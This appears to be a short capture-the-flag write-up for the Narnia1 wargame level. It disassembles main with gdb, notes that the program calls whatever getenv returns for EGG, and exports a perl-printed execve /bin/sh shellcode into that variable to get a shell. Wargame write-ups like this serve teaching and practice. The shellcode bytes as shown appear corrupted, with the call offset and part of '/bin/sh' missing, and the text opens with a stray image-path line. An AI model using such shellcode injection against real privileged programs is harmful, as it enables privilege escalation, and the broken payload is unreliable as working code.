 ```yaml
---
title: "Narnia1 Write-up"
layout: post
category: HackING
author: A1phaZer0
---
```

1.Get disassembled code.  
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   [...]
   0x08048486 <+9>:	 mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   [...]
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   [...]
End of assembler dump.
```
<!--more-->
`<getenv@plt>` returns a pointer to the `value` part of the whole `var=value` environment string, so `call eax` will jump to where `value` starts and run.  
All one need to do is put payload into that environment variable.
2.Put payload into `EGG`
```bash
$ export EGG=$( perl -e 'print "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"' )
```
Run ./narnia1, you'll get a shell.
